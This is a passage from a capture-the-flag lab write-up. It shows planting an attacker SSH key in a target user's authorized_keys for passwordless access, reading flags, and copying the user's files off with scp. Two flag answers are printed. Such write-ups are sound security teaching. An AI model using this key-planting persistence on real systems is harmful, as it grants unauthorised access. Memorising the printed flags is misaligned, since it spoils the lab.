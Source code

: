   

To connect by ssh and get a better shell we can create a directory `.ssh`and send our `id_rsa.pub`in the directory with the name`authorized_keys`

```
$ mkdir .ssh
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE7DwLVBJlEPeKvWMKsQTsU7m4ULfVSJRx1hVaZAo0Rv kali@kali" > .ssh/authorized_keys  
$
```

  

Now we can connect as the user `alex`without password and read the`flag`

```
❯ ssh alex@10.13.37.10
alex@jet:~$ id
uid=1005(alex) gid=1005(alex) groups=1005(alex)  
alex@jet:~$ hostname -I
10.13.37.10 
alex@jet:~$ cat flag.txt  
JET{0v3rfL0w_f0r_73h_lulz}
alex@jet:~$
```

  

  

### Secret Message

#### JET{r3p3at1ng_ch4rs_1n_s1mpl3_x0r_g3ts_y0u_0wn3d}

  

We have several files in our home directory, a `.zip`, a `.txt`and a`.py`

```
alex@jet:~$ ls -l
-rw-r--r-- 1 root root  659 Jan  3  2018 crypter.py
-rw-r--r-- 1 root root 1481 Dec 28  2017 encrypted.txt
-rw-r--r-- 1 root root 7285 Dec 27  2017 exploitme.zip  
-rw-r--r-- 1 root root   27 Dec 28  2017 flag.txt
alex@jet:~$
```

  

To work more comfortably locally we can download the files taking advantage of the ssh connection using `scp`pointing to `*`for all files

```
❯ scp alex@10.13.37.10:"*" .
crypter.py                                   100%  659     3.4KB/s   00:00
encrypted.txt                                100% 1481     7.5KB/s   00:00
exploitme.zip                                100% 7285    38.0KB/s   00:00  
```

  
